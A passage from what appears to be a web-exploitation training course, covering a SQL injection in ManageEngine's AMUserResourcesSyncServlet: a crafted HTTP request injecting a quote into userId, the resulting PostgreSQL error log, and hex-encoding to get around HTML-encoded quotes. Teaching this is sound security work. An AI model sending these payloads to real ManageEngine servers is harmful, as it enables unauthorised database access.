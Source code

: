 #### Exercises

1. Improve the regex used earlier to locate all the _SELECT_ SQL queries in the code base in order to limit the results to only those which include string concatenation and a _WHERE_ clause.
2. Recreate the _pg_sleep_ injection as described in the previous section.
3. Experiment with different payloads and try to discover if there are any character limitations for the injected payloads.

## 3.3. How Houdini Escapes

As we previously stated, our ability to use stacked queries in the payload is very powerful. However, after testing various payloads, specifically those that include quoted strings, we noticed something strange. Let's take a look at the following simple example in which we inject a single quote in the query:

```
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1' HTTP/1.1
Host: manageengine:8443
```

> Listing 19 - Sending an SQL Injection payload that contains a single quote

Looking at the log file we see the following error:

```
[ 2018-04-21 04:42:58.221 GMT ]:ERROR:  operator does not exist: integer &# integer at character 73
[ 2018-04-21 04:42:58.221 GMT ]:HINT:  No operator matches the given name and argument type(s). You might need to add explicit type casts.
[ 2018-04-21 04:42:58.221 GMT ]:STATEMENT:  select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1&#39
```

> Listing 20 - The SQL error message in the log file

As it turns out, special characters are HTML-encoded before they are sent to the database for further processing. This causes us a few headaches as it seems that we cannot use quoted string values in our queries.

In MySQL, this could be solved easily. For example, the following two _select_ statements are equally valid:

```
MariaDB [mysql]> select concat('1337',' h@x0r')
    -> ;
+-------------------------+
| concat('1337',' h@x0r') |
+-------------------------+
| 1337 h@x0r              |
+-------------------------+
1 row in set (0.00 sec)

MariaDB [mysql]> select concat(0x31333337,0x206840783072)
    -> ;
+-----------------------------------+
| concat(0x31333337,0x206840783072) |
+-----------------------------------+
| 1337 h@x0r                        |
+-----------------------------------+
1 row in set (0.00 sec)
```

